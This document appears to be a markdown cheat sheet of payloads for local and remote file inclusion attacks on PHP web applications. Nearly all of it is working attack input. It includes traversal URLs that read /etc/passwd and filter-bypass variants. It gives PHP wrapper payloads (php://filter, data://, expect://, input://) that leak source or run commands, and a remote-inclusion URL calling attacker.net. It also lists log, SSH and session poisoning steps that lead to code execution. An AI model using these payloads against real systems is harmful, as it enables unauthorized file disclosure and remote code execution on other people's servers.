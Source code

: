 ## File Inclsusion (LFI/RFI)

![](https://miro.medium.com/v2/resize:fit:644/1*UPMlwBWgKMSUzSvY5mt5uw.png)

**What is File Inclusion  Attack?**

A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time.

**General Payloads**

```
http://vulnerable-web.com/index.php?page=../../../etc/passwd (Read /etc/passwd)
http://vulnerable-web.com/index.php?page=/etc/passwd (Read /etc/passwd)
http://example.com/index.php?page=/etc/passwd%00 (Read /etc/passwd) [Fixed in PHP 5.4 and later versions]
http://example.com/index.php?page=..././..././..././..././..././..././..././..././etc/passwd (Bypass ../ Filters)
http://example.com/index.php?page=../../../etc/passwd (3 dots in Linux)
http://example.com/index.php?page=http://attacker.net/eval.php.txt (Remote File Inclusion)
```

# PHP wrappers & protocols

**php://filter**

```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
```

**data://**

```
http://example.com/index.php?page=data://text/plain;base64,%50%44%39%77%61%48%41%67%63%33%6c%7a%64%47%56%74%4b%43%64%73%63%79%63%70%4f%79%41%2f%50%67%3d%3d (Useful For WAF bypass)
http://example.com/index.php?page=data:text/plain,%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%20%3f%3e (Will print php info)
```

**expect://**

```
http://example.com/index.php?page=expect://ls [For fopen Function]
```

**input://**

```
curl -X POST -d "<?php system('ls'); ?>" http://example.com/index.php?page=input://
```

**php://fd/**

```
http://example.com/index.php?page=php://fd/[0-9] (Opened Files In Current Process)
```

**zip://**

```
http://example.com/index.php?page=zip://path-to-zip-file/%23shell.php
```

# Web Serice Software logs Poisoning

**Apache2**

```
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/httpd/error_log
```

**Nginx**

```
/var/log/nginx/access.log
/var/log/nginx/error.log
```

# Process Poisoning

```
/proc/self/environ
/proc/self/status
/proc/[id]/fd/[id]
/proc/self/[id]
```

# LFI to RCE via uploaded file

```
http://example.com/index.php?page=./uploads/shell.png
```

# SSH log Poisoning

```
$ ssh '<?php phpinfo(); ?>@example.com'
http://example.com/index.php?page=/var/log/auth.log
```

# PHP Session Poisoning

```
 /var/lib/php/sess_[PHPSESSID]
/tmp/sess_[PHPSESSID]
/var/lib/php/sessions/sess_[PHPSESSID]
```

# PHP session.upload_progress 

```
curl --cookie "PHPSESSID=attacker" -F "PHP_SESSION_UPLOAD_PROGRESS=<?php phpinfo(); ?>" -F "file=@test.png"
#then view session path like /var/lib/php/sess_attacker
```

# Best walkthrough ever
[Click here](https://miro.medium.com/v2/resize:fit:644/1*UPMlwBWgKMSUzSvY5mt5uw.png)
